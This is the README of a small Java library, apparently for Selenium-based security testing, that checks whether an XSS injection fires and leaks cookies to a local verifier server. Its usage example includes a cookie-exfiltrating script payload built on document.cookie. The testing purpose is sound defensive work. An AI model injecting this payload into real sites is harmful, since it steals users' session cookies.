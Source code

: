 # xssverifier
A little project for XSS-safe verification for Selenium

        <dependency>
            <groupId>com.github.eljah</groupId>
            <artifactId>xssverifier</artifactId>
            <version>0.1</version>
        </dependency>

Usage example:
```java
XSSCheck x=XSSVerifier.createNewCheck(4567,"xss.gif","<script> img = new Image(); img.src = \"http://%1$s:%2$d/%3$s?\"+document.cookie; </script>");
/* 4567 is a port number where the XSS checker's embbedded http server runs, xss.gif is a resource, the last string is  javascript injection template*/

//check occurs behind the scene
//to ensure it works open localhost:4567/xss.gif in your browser

while (!x.getXSSURLCalledStatus())
{
    Thread.sleep(1000);
    System.out.println("wait 1...");
}

//the XSS host and resource were requested but not nessessarily some parameter was passed
//to ensure it works open localhost:4567/xss.gif?sometext in your browser

while (!x.getXSSCookiePassedStatus())
{
    Thread.sleep(1000);
    System.out.println("wait 2...");
}

//the XSS host and resource were requested and some parameter was passed but that was not the hijacked cookie
//to ensure it works open localhost:4567/xss.gif?visited=02022015 in your browser

while (!x.getXSSCookieHijacked("visited"))
{
    Thread.sleep(1000);
    System.out.println("wait 3...");
}

//the XSS host and resource were requested, some parameter was passed and this parameter is cookie named visited
//so the particular cookie was hijacked and that was verified
```
